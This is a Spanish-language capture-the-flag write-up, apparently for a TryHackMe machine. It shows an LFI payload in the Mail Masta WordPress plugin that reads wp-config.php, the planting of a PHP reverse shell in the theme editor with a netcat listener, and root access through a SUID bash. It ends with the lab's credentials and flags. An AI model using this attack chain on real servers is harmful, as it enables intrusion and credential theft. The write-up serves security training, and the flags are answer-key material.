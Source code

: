 En mi caso, utilizare el seleccionado, descargamos el archivo .txt : `searchsploit -m php/webapps/40290.txt` y nos muestra que deberemos hacer uso de #LFI(__Local FIle Inclusion__). Con esta vulnerabilidad, podremos abusarnos y enumerar informacion como credenciales, base de datos, archivos de configuracion, entre otros.

Haremos uso de los filtros php, para que nos enumere la configuracion de wordpress "__wp-config.php__" y que nos responda en codigo base64. Nuestro comando nos quedara de la siguiente manera : 
`http://IPTARGET/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php`

Una vez obtuvimos la respuesta, la decodificaremos en nuestra terminal ejecutando : `echo "BASE64" | base64 -d`, obtendremos las credenciales de elyana para poder acceder a wordpress. Para acceder con nuestras credenciales obtenidas, nos tendremos que dirigir al directorio "__/wordpress/wp-admin".

# Exploit

Una vez obtuvimos acceso con las credenciales de elyana, nos digiriremos dentro del editor de temas (Appareance/Theme-Editor). Seleccionamos en la columna "__Theme FIles__" el que esta listado como "__404 Template__" y pegaremos una reverse shell que puede ser a eleccion, yo utilizare una bastante popular de pentestmonkey "https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php", tendremos que configurar la __IP__ y __PUERTO__ de nuestra maquina atacante!, una vez realizado el proceso, en nuestra maquina atacante, nos pondremos en escucha para luego recibir la respuesta del y obtener una shell dentro del sistema como www-data. `nc -nvlp PUERTO`

Para obtener respuesta en la terminal de nuestra maquina atacante, deberemos ir al enlance donde pegamos nuestra reverse-shell, que estara alojada en "http://IPTARGET/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty". Una vez visitada, ya tendremos nuestra shell con privilegios www-data.

# Priv. Escalation

Para escalar privilegios dentro de este sistema, tendremos que enumerar los permisos de root y en donde estan alojados, utilizaremos __find__ para esta tarea ejecutando : `find / -perm -4000 2> /dev/null | xargs ls -lah`.

```ruby
-rwsr-sr-x 1 root   root       1.1M Jun  6  2019 /bin/bash
-rwsr-sr-x 1 root   root        59K Jan 18  2018 /bin/chmod
-rwsr-xr-x 1 root   root        31K Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root   root        43K Sep 16  2020 /bin/mount
-rwsr-xr-x 1 root   root        63K Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root   root        44K Mar 22  2019 /bin/su
-rwsr-xr-x 1 root   root        27K Sep 16  2020 /bin/umount
-rwsr-sr-x 1 daemon daemon      51K Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root   root        75K Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root   root        44K Mar 22  2019 /usr/bin/chsh
...
```

Como tiene permisos alojados en /bin/bash, podremos consultar en la pagina "https://gtfobins.github.io/gtfobins/" y buscar por permisos __bash__. Utilizaremos el metodo __SUID__ para esta tarea, un metodo simple, solo tendremos que ejecutar `bash -p` y ya tendremos acceso al sistema raiz!

# Respuestas

#credentials = elyana: H@ckme@123
#FLAG = THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
#ROOT = THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
